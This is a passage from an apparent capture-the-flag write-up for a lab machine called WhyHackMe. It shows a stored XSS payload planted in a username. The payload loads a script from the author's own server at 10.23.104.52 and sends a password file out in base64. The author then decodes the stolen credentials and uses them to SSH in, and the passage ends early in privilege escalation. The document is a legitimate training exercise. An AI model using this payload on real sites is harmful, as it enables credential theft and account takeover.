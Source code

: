 Trigger steps:

1. Start a simple HTTP server on the attacker machine to serve `new.js` (and receive GET requests containing the base64 data):
    

```shell
python3 -m http.server 5000
```

2. Register a new user with the name:
    

```html
<script src="http://10.23.104.52:5000/new.js"></script>
```

3. Comment on the admin's post to trigger the payload when the admin views it.
    

When the admin visited, my server received a GET with the base64 contents of `/dir/pass.txt`:

![sub](assets/images/posts/2025-09-19-WhyHackMe/Pasted image 20250915100619.png)

Decoded the base64:

```shell
echo "base64_encoded_text" | base64 -d
```

![sub](assets/images/posts/2025-09-19-WhyHackMe/Pasted image 20250915100920.png)

That produced credentials for a user named **jack**, so I SSH'd in and retrieved the user flag from his home directory.

```shell
ssh jack@10.10.59.88
```

![sub](assets/images/posts/2025-09-19-WhyHackMe/Pasted image 20250915101333.png)

---

## Privilege Escalation

While enumerating the host as `jack`, I found two interesting files in `/opt`:

- `urgent.txt`
    
- `capture.pcap`
    

`urgent.txt` contents:

```
Hey guys, after the hack some files have been placed in /usr/lib/cgi-bin/ and when I try to remove them, they wont, even though I am root. Please go through the pcap file in /opt and help me fix the server. And I temporarily blocked the attackers access to the backdoor by using iptables rules. The cleanup of the server is still incomplete I need to start by deleting these files first.
```
